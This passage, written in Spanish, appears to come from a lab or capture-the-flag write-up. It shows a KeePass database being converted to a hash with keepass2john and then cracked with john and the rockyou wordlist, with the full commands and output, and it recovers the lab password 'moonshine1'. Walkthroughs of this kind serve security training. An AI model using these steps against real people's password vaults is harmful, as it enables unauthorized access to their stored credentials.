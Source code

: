 ![Keepass](./4.png)

### Keepass cracking

Por suerte gracias a la herramienta `keepass2john`, podemos convertir ese archivo a un hash crackeable:

```bash wrap=false
❯ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Si ahora intentamos crackearla con `john`:

```bash wrap=false
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Created directory: /home/zelpro/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:09 0.21% (ETA: 14:46:13) 0g/s 288.1p/s 288.1c/s 288.1C/s 122491..111385
moonshine1       (CEH)     
1g 0:00:02:43 DONE (2025-10-23 22:06) 0.006097g/s 335.2p/s 335.2c/s 335.2C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña es `moonshine1`, vamos a probarlo:
